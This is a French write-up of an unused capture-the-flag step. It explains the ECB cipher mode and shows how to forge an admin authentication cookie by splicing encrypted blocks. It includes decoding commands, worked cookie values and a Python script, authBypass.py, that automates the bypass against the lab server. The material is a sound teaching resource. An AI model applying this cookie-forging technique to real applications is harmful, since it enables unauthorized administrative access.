

Dans ce document, nous décrivons l'étape implémentée par Hong Duong Tran mais non intégrée au challenge : il s'agissait d'une extension de l'application web, destinée à ajouter un mécanisme d'authentification par cookies avant l'exploitation de la vulnérabilité par inclusion de fichiers. L'exploitation consistait à exploiter la faiblesse d'un chiffrement en mode ECB, pour forger un cookie d'administration.
Cette étape n'a pas été intégrée pour des raisons de contraintes temporelles et de redondance avec d'autres étapes du challenge. Le code correspondant est disponible dans le dossier 03-WebService-Bis du dépôt Github. Nous fournissons malgré tout la documentation associée.
ECB (Electronic codebook) est un mode de chiffrement dans lequel le message est divisé en plusieurs blocs, d'une longueur de X octets, et chaque bloc est chiffré séparément à l'aide d'une clé unique. Si la taille du message n'est pas divisible par X, le message va être complété à l'aide d'un padding (qui consiste à ajouter des octets de remplissage, non porteur d'informations).

Pendant le déchiffrement, l'opération inverse est utilisée. L'utilisation du mode ECB a de multiples implications de sécurité:
Dans ce challenge, vous n'avez pas besoin d'un mot de passe pour enregistrer un utilisateur. Pour modifier un cookie à la volée, une astuce intéressante consiste, dans un navigateur, à presser la touche F12, puis à sélectionner l'onglet Console. Cela va vous ouvrir un interpréteur de commandes javascript, qui vous permet de remplacer ou d'ajouter de nouveaux cookies en tapant, dans le champ prévu à cet effet :
document.cookie="keyofcookie=valueofcookie"
Créer un utilisateur "aaaaaaaa" (8 x a) et "aaaaaaaaaaaaaaaa" (16 x a).
Le cookie "auth" que vous aller recevoir est de la forme "Ye9iCGOuYQ%3d%3d".Le "%3d%3d" est la version "url encodée" de "==". Il s'agit d'un bon indice pour identifier une chaîne de caractères en base64.
Essayez de le décoder. En python, vous pouvez taper cette commande pour décoder une URL :
python -c "print(__import__('urllib.parse').parse.unquote('CookieURLencoded'))"
Puis vous pouvez utiliser le nouveau cookie dans cette commande :
python -c "print(__import__('base64').b64decode('YourCookieHere'))"
Voici un exemple :
python -c "print(__import__('urllib.parse').parse.unquote('Ye9iCGOuYQ%3d%3d'))"
> Ye9iCGOuYQ==
python -c "print(__import__('base64').b64decode('Ye9iCGOuYQ=='))"
> b'a\xefb\x08c\xaea'A partir de ces éléments, nous pouvons essayer de répondre à la question : "Quelle est la taille d'un bloc ?"
Pour réponse à cette question, continuons notre exemple. Le résultat de b64decode est sous forme b' ' car python3 distingue les bytes (préfixés par b' ') et les string. Les 2 caractères suivant le \x forment donc 1 byte. Toutes les valeurs ne peuvent être représentées sous forme ASCII : elles se présentent donc sous forme hexadécimale avec \x comme préfixe. Donc ici, b'a\xefb\x08c\xaea' a 7 bytes comme suit : ['a','\xef','b','\x08','c','\xae','a'].
Après avoir obtenu la taille d'un bloc, vous pouvez par exemple créer un utilisateur "a...aadmin" avec "a...a" ayant la longueur d'un bloc, et ensuite extraire le bloc correspondant au cookie de "admin".
Vous pouvez écrire vous même un script pour réaliser cette exploitation, ou utiliser notre script authBypass.py.
Dans cette partie, nous allons présenter la solution pour bypasser l'authentification par cookies chiffré grâce au mode ECB.
Tout d'abord, nous pouvons commencer par créer deux comptes aaaaaaaa et aaaaaaaaaaaaaaaa et comparer le cookie envoyé par l'application :
| Username: | aaaaaaaa | aaaaaaaaaaaaaaaa |
|---|---|---|
| Cookie: | RdrBnAuTHWcEHvbhgcSzgg%3D%3D | RdrBnAuTHWdF2sGcC5MdZwQe9uGBxLOC |
Le signe %3D%3D signifie (si on décode l'encodage URL) == , il s'agit donc d'un bon indicateur de chaîne codée en base64. Donc nos cookies, une fois décodé de l'encodage URL, sont les suivants :
| Username: | aaaaaaaa | aaaaaaaaaaaaaaaa |
|---|---|---|
| Cookie: | RdrBnAuTHWcEHvbhgcSzgg== | RdrBnAuTHWdF2sGcC5MdZwQe9uGBxLOC |
Si on décode les deux cookies en base64, nous obtenons les chaînes suivantes:
| Username: | aaaaaaaa | aaaaaaaaaaaaaaaa |
|---|---|---|
| Cookie: | E\xda\xc1\x9c\x0b\x93\x1dg\x04\x1e\xf6\xe1\x81\xc4\xb3\x82 | E\xda\xc1\x9c\x0b\x93\x1dgE\xda\xc1\x9c\x0b\x93\x1dg\x04\x1e\xf6\xe1\x81\xc4\xb3\x82 |
On voit bien ici que le bloc E\xda\xc1\x9c\x0b\x93\x1dg est répété deux fois pour l'utilisateur aaaaaaaaaaaaaaaa, donc on constate ainsi que la taille d'un bloc est de 8 octets.
Une petit remarque : Les cookies se terminent par \x04\x1e\xf6\xe1\x81\xc4\xb3\x82 car le \0 situé à la fin d'une chaîne de caractères forme un nouveau bloc, la longueur totale devient 9(17) et doit donc ensuite être paddé à 16(24).
On peut créer un utilisateur helo, ce qui nous donne 9F\xdbY\xb6\xb5o\x80 car la longueur totale ne dépassant pas 8 octets, le message clair a été paddé à 8 octets.
Comme on n'a pas le droit de créer directement un utilisateur admin, on va créer aaaaaaaaadmin, insérant ainsi 8 octets quelconques en premier, pour remplacer le premier bloc, puis les 8 octets suivants qui correspondent donc au cookie d'authentification de l'utilisateur admin.
Après avoir créé aaaaaaaaadmin, on reçoit ce cookie :
> document.cookie
< "auth=RdrBnAuTHWdJB8In%2Bl73Ow%3D%3D"Après avoir décodé l'encodage URL et la base64, on obtient donc :
python3 -c "print(__import__('urllib.parse').parse.unquote('RdrBnAuTHWdJB8In%2Bl73Ow%3D%3D'))"
> RdrBnAuTHWdJB8In+l73Ow==
python3 -c "print(__import__('base64').b64decode('RdrBnAuTHWdJB8In+l73Ow=='))"
> b"E\xda\xc1\x9c\x0b\x93\x1dgI\x07\xc2'\xfa^\xf7;"Il ne nous reste plus qu'à sélectionner les 8 derniers octets, et à les réencoder en base64 :
python3 -c "print(__import__('base64').b64encode(b'I\x07\xc2\'\xfa^\xf7;'))"
> b'SQfCJ/pe9zs='Le cookie d'authentification de l'utilisateur admin est donc le suivant :SQfCJ/pe9zs=. On peut noter que, comme la forme hexadécimale du cookie contient ', il est nécessaire de l'échapper si on procède à chaque étape individuellement.
Pour automatiser cette exploitation, nous avons développé le script authBypass.py, disponible dans le répertoire 03-WebService-Bis.
import requests
import urllib
import base64
host = "http://192.168.73.140"
# Enregistre user "aaaaaaaaadmin" et obtenir le cookie auth
r = requests.post(host+"/register.php",data = {"name" : "aaaaaaaaadmin"},allow_redirects=False)
cookie = r.headers["Set-Cookie"]
print("All cookie : ", cookie)
#get auth cookie
auth = cookie.split(";")
auth = auth[0].split("=")
auth = urllib.parse.unquote(auth[1])
print("Cookie authentication is : ",auth)
# Decode auth
auth = base64.b64decode(auth)
# get admin cookie block
auth = auth[8:]
auth = base64.b64encode(auth)
print("Cookie for admin is : ",auth)